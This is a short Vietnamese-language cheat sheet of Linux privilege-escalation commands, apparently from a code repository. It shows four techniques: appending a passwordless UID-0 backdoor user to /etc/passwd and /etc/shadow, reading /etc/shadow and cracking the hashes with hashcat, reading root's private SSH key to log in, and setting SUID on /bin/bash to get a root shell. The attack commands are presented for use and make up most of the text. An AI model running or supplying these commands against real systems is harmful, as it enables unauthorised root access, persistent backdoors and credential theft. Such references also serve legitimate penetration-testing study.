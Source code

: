 # Limited Permissions Exploits

### 1. Thêm Người dùng Root Mới

**Lệnh**:

```bash
echo '<user>:x:0:0:root:/root:/bin/bash' | sudo tee -a /etc/passwd
echo '<user>::18985:0:99999:7:::' | sudo tee -a /etc/shadow
```

* Thêm một người dùng mới với UID và GID là 0 (root) vào `/etc/passwd` và `/etc/shadow`.
* Mật khẩu rỗng (không cần mật khẩu để đăng nhập).

**Ví dụ**:

```bash
echo 'newroot:x:0:0:root:/root:/bin/bash' | sudo tee -a /etc/passwd
echo 'newroot::18985:0:99999:7:::' | sudo tee -a /etc/shadow
```

* Tạo người dùng `newroot` với quyền root, sau đó dùng `su newroot` để đăng nhập.

***

### 2. Đọc Tệp `/etc/shadow`

**Lệnh**:

```bash
cat /etc/shadow
hashcat -a 0 <hash> <wordlist>.txt
```

* Đọc `/etc/shadow` để lấy hàm băm mật khẩu (password hash) và bẻ khóa bằng công cụ như `hashcat`.
* `-a 0`: Chế độ tấn công từ điển (dictionary attack).

**Ví dụ**:

```bash
cat /etc/shadow
hashcat -a 0 hash.txt passwords.txt
```

* Trích xuất hàm băm từ `/etc/shadow` và thử bẻ khóa với danh sách mật khẩu `passwords.txt`.

***

### 3. Truy cập Khóa SSH Riêng

**Lệnh**:

```bash
cat /root/.ssh/id_rsa
ssh -i /root/.ssh/id_rsa <user>@<target_ip>
```

* Đọc khóa SSH riêng (private key) để truy cập trái phép vào hệ thống từ xa.
* Dùng khóa để SSH vào máy mục tiêu với tư cách người dùng tương ứng.

**Ví dụ**:

```bash
cat /root/.ssh/id_rsa
ssh -i /root/.ssh/id_rsa root@localhost
```

* Đọc khóa SSH của root và dùng nó để đăng nhập vào `localhost` với tư cách root.

***

### 4. Thiết lập SUID cho Bash

**Lệnh**:

```bash
chmod u+s /bin/bash
/bin/bash -p
```

* Cấp quyền SUID cho `/bin/bash`, cho phép chạy Bash với đặc quyền của chủ sở hữu (thường là root).
* `-p`: Giữ đặc quyền khi chạy Bash, mở shell root.

**Ví dụ**:

```bash
chmod u+s /bin/bash
/bin/bash -p
```

* Sau khi thiết lập SUID, chạy Bash để nhận shell root.

**Lưu ý Quan trọng**:

* Yêu cầu quyền ghi vào `/etc/passwd`, `/etc/shadow`, hoặc `/bin/bash`, hoặc quyền `sudo` phù hợp để thực hiện các lệnh trên.
* Đảm bảo xác minh hành vi hệ thống trước khi sửa đổi tệp nhạy cảm để tránh làm gián đoạn.
